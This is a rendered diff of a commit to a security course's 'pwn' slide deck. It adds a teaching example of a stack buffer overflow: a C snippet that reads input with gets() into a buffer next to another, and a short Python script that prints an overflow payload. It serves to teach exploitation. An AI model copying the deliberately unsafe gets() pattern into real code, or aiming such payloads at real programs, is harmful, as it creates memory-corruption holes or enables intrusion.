

Before and after one commit to shreyasminocha/coll123, a Markdown page: slides/04-pwn.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Update pwn slides with an example

````diff
--- a/slides/04-pwn.md
+++ b/slides/04-pwn.md
@@ -73,6 +73,26 @@ padding = 64
 
 p = process("./vuln")
 p.sendline((b"A" * padding) + p32(0xDEADBEEF))
+```
+
+---
+
+```c
+// ...
+char expected[36];
+char actual[36];
+strcpy(expected, "something something");
+
+gets(actual);
+printf("  actual: %s\n", actual);
+printf("expected: %s\n", expected);
+```
+
+```py
+import sys
+
+magic_constant = 12  # obtained through trial-and-error
+sys.stdout.buffer.write(b"A" * 35 + b"\x00" + b"A" * (35 + magic_constant))
 ```
 
 ---
````
